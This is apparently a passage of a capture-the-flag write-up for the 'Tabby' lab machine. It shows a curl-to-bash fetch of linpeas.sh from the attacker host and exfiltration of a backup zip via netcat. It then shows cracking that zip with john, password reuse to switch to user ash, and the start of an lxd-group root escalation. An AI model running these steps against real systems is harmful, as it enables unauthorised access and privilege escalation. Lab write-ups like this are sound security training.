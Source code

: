 We can run linpeas.sh to get an overview of what we have on the system:

```
$ curl http://10.10.xx.xx/linpeas.sh | bash
...
[+] Backup files?                                                                                                    
-rw-r--r-- 1 ash ash 8716 Jun 16 13:42 /var/www/html/files/16162020_backup.zip  
-rw-r--r-- 1 root root 2743 Apr 23 07:35 /etc/apt/sources.list.curtin.old   
...
```

The backup file in the html/files directory is interesting, as it's owned by ash:

```
$ ls -lah /var/www/html/files/16162020_backup.zip 

-rw-r--r-- 1 ash ash 8.6K Jun 16 13:42 /var/www/html/files/16162020_backup.zip
```

We'll send this to our attacking machine with netcat, then crack it with john:

```
$ zip2john backup.zip > hash.txt

$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
...
backup.zip:admin@it::backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:backup.zip
```

We cracked the password for a file owned by ash, so we'll see if he reused his account password for this zip file:

```
$ su ash
su ash
Password: admin@it

ash@tabby:$
```

## Escalating to Root

If we look at our groups, we can see that we're part of the lxd group, which will be an easy priv-esc method:

```
$ id

uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

We'll start by building an alpine image on our attacking machine:

```
$ git clone https://github.com/saghul/lxd-alpine-builder.git

$ cd lxd-alpine-builder

$ sudo ./build-alpine -a i686

$ mv alpine-v3.12-i686-20200626_1209.tar.gz alpine.tar.gz
```
